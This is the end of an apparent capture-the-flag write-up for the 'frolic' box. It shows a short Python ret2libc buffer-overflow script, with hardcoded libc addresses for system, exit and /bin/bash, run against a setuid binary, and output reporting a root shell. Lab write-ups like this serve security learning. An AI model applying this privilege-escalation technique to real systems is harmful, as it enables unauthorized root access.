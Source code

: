 So we need a bit more than that

52 to be exact. From there I will look for system exit and /bin/bash in the libc binary and call them in that order after sending 52 bytes:

```bash
www-data@frolic:/tmp$ python2 script.py 
# cat script.py
import os
import struct 

base = struct.pack('<I', 0xb7e19000 + 0x0003ada0) # base system
exit = struct.pack('<I', 0xb7e19000 + 0x0002e9d0) # exit 
command = struct.pack('<I', 0xb7e19000 + 0x15ba0b) #command /bin/bash

buffer = "A" * 52 + base + exit + command 

os.system("/home/ayush/.binary/rop " + buffer)
# whoami
root
```


## Beyond Root

This was annoying box, I will not entertain the beyond root.

best,
gerbsec
